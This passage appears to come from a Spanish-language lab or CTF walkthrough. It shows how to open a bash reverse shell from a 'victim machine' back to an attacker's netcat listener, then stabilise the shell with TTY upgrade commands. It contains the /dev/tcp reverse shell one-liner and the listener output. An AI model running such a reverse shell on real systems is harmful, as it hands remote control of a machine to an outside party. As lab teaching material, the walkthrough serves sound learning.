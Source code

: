 **Máquina víctima:**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

En donde lanzamos un bash en modo interactivo abriendo una conexión TCP hacia la máquina atacante en un puerto específico, y redirigimos stdout (1) y stderr (2) al socket TCP, y stdin (0) al mismo descriptor (conexión TCP), así que todo lo que escribamos en el listener se mandará como entrada al bash, y lo que el bash responda (salida/error) viaje de vuelta al listener.

Comprobamos que nos funcione:

```
nc -lvnp <puerto>
listening on [any] <puerto> ...
connect to [<ip_maquina_atacante>:] from (UNKNOWN) [172.17.0.2] 52918
bash: cannot set terminal process group (52): Inappropriate ioctl for device
bash: no job control in this shell
conx@6c657e793f58:~$ whoami 
whoami
conx
```

### Mejora del TTY
Seguimos con la sanitización de shell (TTY):

```bash
script /dev/null -c bash
```

Con esto ejecutamos una nueva instancia de bash bajo el comando script, lo que nos da un pseudo-terminal (pty) mínimo.

Luego le damos **Ctrl + Z** para suspender el proceso actual y volver a nuestro Netcat (nc).

Luego corremos el comando:
```bash
stty raw -echo; fg
```

Que enviará los datos sin procesar y sin mostrar lo que escribamos.

Luego, hacemos los siguientes comandos:
```bash
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

Para limpiar, reiniciar, exportar el tipo de terminal y forzar el shell principal de bash.

Si tenemos algún problema con la terminal podemos usar:
```bash
stty size
```

y

```bash
stty rows <ROWS> columns <COLUMNS>
```

